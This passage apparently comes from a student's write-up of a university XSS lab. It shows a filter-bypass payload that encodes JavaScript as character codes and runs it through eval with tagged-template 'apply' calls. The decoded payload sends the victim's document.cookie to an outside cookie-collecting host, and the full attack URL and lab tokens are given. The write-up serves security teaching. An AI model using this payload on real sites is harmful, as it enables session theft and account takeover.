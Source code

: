 Ok, look at the `hello.txt` file, we have the token already:

`authenticated=cd1abf821c9d8f4a4f4ea6cb5870bf7e98dcff51`.

Done.

### Problem 4

Ok, in this problem, the previous solution wouldn't work because the server escapes the data in the iframe. However, interestingly, this time, we can use `space`, `script`, and `on`. The only problem is that we cannot use `<`, `>`, `(`, `)`, and `document`.

Hence, the idea of our attack is to construct a string corresponding to our payload, use `String.fromCharCode` to decode it, and use `eval` to execute it. However, since the parentheses are not allowed, we can use literals instead and try to achieve the same effect.

Notice that literals are really different from parentheses when used to call functions.

Ok, following are the solutions:

The payload is 

```
" onerror="var l=[118, 97, 114, 32, 105, 109, 103, 61, 110, 101, 119, 32, 73, 109, 97, 103, 101, 40, 41, 59, 105, 109, 103, 46, 115, 114, 99, 61, 39, 104, 116, 116, 112, 115, 58, 47, 47, 104, 111, 109, 101, 115, 46, 99, 115, 46, 119, 97, 115, 104, 105, 110, 103, 116, 111, 110, 46, 101, 100, 117, 47, 126, 122, 101, 116, 105, 97, 99, 47, 67, 111, 111, 107, 105, 101, 69, 97, 116, 101, 114, 46, 112, 104, 112, 63, 99, 111, 111, 107, 105, 101, 61, 39, 43, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 111, 111, 107, 105, 101, 59];var s=String.fromCharCode.apply`${l}`;eval.apply`${[s]}`" src="
```

Notice the importance of using `apply` in this problem. Directly calling "eval\`something\`" will not execute the command but only return an array.

Hence, the url to use for this problem is:

```
http://codered.cs.washington.edu/lab2/pmc/pie.php?url=%22+onerror%3D%22var+l%3D%5B118%2C+97%2C+114%2C+32%2C+105%2C+109%2C+103%2C+61%2C+110%2C+101%2C+119%2C+32%2C+73%2C+109%2C+97%2C+103%2C+101%2C+40%2C+41%2C+59%2C+105%2C+109%2C+103%2C+46%2C+115%2C+114%2C+99%2C+61%2C+39%2C+104%2C+116%2C+116%2C+112%2C+115%2C+58%2C+47%2C+47%2C+104%2C+111%2C+109%2C+101%2C+115%2C+46%2C+99%2C+115%2C+46%2C+119%2C+97%2C+115%2C+104%2C+105%2C+110%2C+103%2C+116%2C+111%2C+110%2C+46%2C+101%2C+100%2C+117%2C+47%2C+126%2C+122%2C+101%2C+116%2C+105%2C+97%2C+99%2C+47%2C+67%2C+111%2C+111%2C+107%2C+105%2C+101%2C+69%2C+97%2C+116%2C+101%2C+114%2C+46%2C+112%2C+104%2C+112%2C+63%2C+99%2C+111%2C+111%2C+107%2C+105%2C+101%2C+61%2C+39%2C+43%2C+100%2C+111%2C+99%2C+117%2C+109%2C+101%2C+110%2C+116%2C+46%2C+99%2C+111%2C+111%2C+107%2C+105%2C+101%2C+59%5D%3Bvar+s%3DString.fromCharCode.apply%60%24%7Bl%7D%60%3Beval.apply%60%24%7B%5Bs%5D%7D%60%22+src%3D%22
```

The authentication code for this problem is `authenticated=729efab9f893b1d3fd47eafb4cb43cf42e3ce62a`.

### Problem 5

No more comment. Too easy compared with the previous problem.

Payload is:
